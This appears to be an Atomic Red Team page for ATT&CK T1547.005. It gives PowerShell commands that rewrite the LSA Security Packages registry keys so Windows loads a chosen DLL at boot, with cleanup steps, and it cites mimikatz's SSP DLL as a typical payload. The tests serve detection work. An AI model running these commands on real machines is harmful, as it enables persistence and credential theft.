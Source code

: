 # T1547.005 - Boot or Logon Autostart Execution: Security Support Provider
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1547/005)
<blockquote>

Adversaries may abuse security support providers (SSPs) to execute DLLs when the system boots. Windows SSP DLLs are loaded into the Local Security Authority (LSA) process at system start. Once loaded into the LSA, SSP DLLs have access to encrypted and plaintext passwords that are stored in Windows, such as any logged-on user's Domain password or smart card PINs.

The SSP configuration is stored in two Registry keys: <code>HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Security Packages</code> and <code>HKLM\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\Security Packages</code>. An adversary may modify these Registry keys to add new SSPs, which will be loaded the next time the system boots, or when the AddSecurityPackage Windows API function is called.(Citation: Graeber 2014)

</blockquote>

## Atomic Tests

- [Atomic Test #1 - Modify HKLM:\System\CurrentControlSet\Control\Lsa Security Support Provider configuration in registry](#atomic-test-1---modify-hklmsystemcurrentcontrolsetcontrollsa-security-support-provider-configuration-in-registry)

- [Atomic Test #2 - Modify HKLM:\System\CurrentControlSet\Control\Lsa\OSConfig Security Support Provider configuration in registry](#atomic-test-2---modify-hklmsystemcurrentcontrolsetcontrollsaosconfig-security-support-provider-configuration-in-registry)


<br/>

## Atomic Test #1 - Modify HKLM:\System\CurrentControlSet\Control\Lsa Security Support Provider configuration in registry
Add a value to a Windows registry Security Support Provider pointing to a payload .dll which will normally need to be copied in the system32 folder.
A common DLL used with this techquite is the minilib.dll from mimikatz, see https://pentestlab.blog/2019/10/21/persistence-security-support-provider/

**Supported Platforms:** Windows


**auto_generated_guid:** afdfd7e3-8a0b-409f-85f7-886fdf249c9e






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$oldvalue = $(Get-ItemProperty HKLM:\System\CurrentControlSet\Control\Lsa -Name 'Security Packages' | Select-Object -ExpandProperty 'Security Packages');
Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name 'Security Packages old' -Value "$oldvalue";
$newvalue = "AtomicTest.dll";
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa -Name 'Security Packages' -Value $newvalue
```

#### Cleanup Commands:
```powershell
$oldvalue = $(Get-ItemPropertyValue -Path  "HKLM:\System\CurrentControlSet\Control\Lsa" -Name 'Security Packages old' | Select-Object -ExpandProperty 'Security Packages old');
Set-ItemProperty -Path HKLM:\System\CurrentControlSet\Control\Lsa -Name 'Security Packages' -Value "$oldvalue";
Remove-ItemProperty -Path  "HKLM:\System\CurrentControlSet\Control\Lsa" -Name 'Security Packages old';
```





<br/>
<br/>

## Atomic Test #2 - Modify HKLM:\System\CurrentControlSet\Control\Lsa\OSConfig Security Support Provider configuration in registry
Add a value to a Windows registry SSP key, simulating an adversarial modification of those keys.

**Supported Platforms:** Windows


**auto_generated_guid:** de3f8e74-3351-4fdb-a442-265dbf231738






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$oldvalue = $(Get-ItemProperty HKLM:\System\CurrentControlSet\Control\Lsa\OSConfig -Name 'Security Packages' | Select-Object -ExpandProperty 'Security Packages');
Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa\OSConfig" -Name 'Security Packages old' -Value "$oldvalue";
$newvalue = "AtomicTest.dll";
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig -Name 'Security Packages' -Value $newvalue
```

#### Cleanup Commands:
```powershell
$oldvalue = $(Get-ItemPropertyValue -Path  "HKLM:\System\CurrentControlSet\Control\Lsa\OSConfig" -Name 'Security Packages old' | Select-Object -ExpandProperty 'Security Packages old');
Set-ItemProperty -Path HKLM:\System\CurrentControlSet\Control\Lsa\OSConfig -Name 'Security Packages' -Value "$oldvalue";
Remove-ItemProperty -Path  "HKLM:\System\CurrentControlSet\Control\Lsa\OSConfig" -Name 'Security Packages old';
```





<br/>
